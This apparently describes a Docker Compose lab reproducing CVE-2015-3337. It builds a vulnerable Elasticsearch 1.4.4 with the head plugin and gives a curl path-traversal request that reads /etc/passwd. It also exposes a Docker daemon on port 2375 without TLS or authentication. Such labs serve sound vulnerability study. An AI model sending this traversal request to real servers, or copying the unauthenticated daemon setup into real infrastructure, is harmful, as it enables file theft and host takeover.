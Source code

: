 This Docker Compose setup runs two services:

1. **Docker-in-Docker (dind)** – based on `docker:20.10-dind`. The daemon is exposed on port **2375** without TLS, allowing unauthenticated remote API access. The daemon is started with an explicit command to listen on the TCP socket (`--host=tcp://0.0.0.0:2375`) and TLS disabled (`--tls=false`).

2. **Elasticsearch** – a custom image built from the vulnerable `elasticsearch:1.4.4` base (pulled from Elastic's registry) and extended with the `elasticsearch-head` plugin version `1.4.0`. The service listens on the standard ports **9200** (HTTP) and **9300** (transport). It is configured for single‑node operation and disables memory locking limits to match the requirements of the older ES releases.

Both containers are launched on the default Docker Compose network, allowing you to reproduce the directory‑traversal scenario described in CVE‑2015‑3337. After running:

```bash
docker compose up -d
```

you can test the vulnerability with:

```bash
curl http://localhost:9200/_plugin/head/../../../etc/passwd
```

If the plugin is correctly installed, the server will return the contents of `/etc/passwd`, demonstrating the vulnerability.

No additional manual setup is required; the `docker compose up` command builds the custom Elasticsearch image, starts both services, and exposes them on the host ports indicated above.